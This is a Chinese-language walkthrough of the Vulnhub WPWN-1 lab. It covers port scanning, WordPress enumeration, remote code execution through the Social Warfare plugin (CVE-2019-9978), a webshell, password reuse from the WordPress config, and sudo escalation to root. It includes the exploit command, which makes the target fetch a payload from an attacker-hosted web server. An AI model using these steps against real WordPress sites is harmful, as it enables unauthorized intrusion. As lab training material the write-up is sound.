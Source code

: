 ```yaml
---

title: Vulnhub	537 SO WPWN-1

---
```

考点：dirsearch,wordpress,sudo

靶机链接：<https://www.vulnhub.com/entry/wpwn-1,537/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| WPWN-1     | 10.0.2.39 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.39
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

### WEB测试

#### dirsearch

发现wordpress目录，看来是搞wordpress了

![1](https://static.iihack.com/vulnhub/537/1.jpg)

#### wpscan

```bash
$ wpscan --url http://10.0.2.39/wordpress --api-token ******************************************* -e
```

![2](https://static.iihack.com/vulnhub/537/2.jpg)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://static.iihack.com/vulnhub/515/3.jpg)
```bash
$ python2  46794.py -t http://10.0.2.39/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![3](https://static.iihack.com/vulnhub/537/3.jpg)

### 用户权限

查看wordpress数据库配置

![4](https://static.iihack.com/vulnhub/537/4.jpg)

获得密码`R3&]vzhHmMn9,:-5`

查看/home文件夹发现用户 `takis`

![5](https://static.iihack.com/vulnhub/537/5.jpg)

登录成功

## 提权

![6](https://static.iihack.com/vulnhub/537/6.jpg)

获得root权限

### 彩蛋

这里root.txt找flag的过程中发现还有个彩蛋

![7](https://static.iihack.com/vulnhub/537/7.jpg)



关联[vulnhub515](https://www.iihack.com/2020/07/17/vulnhub-515.html)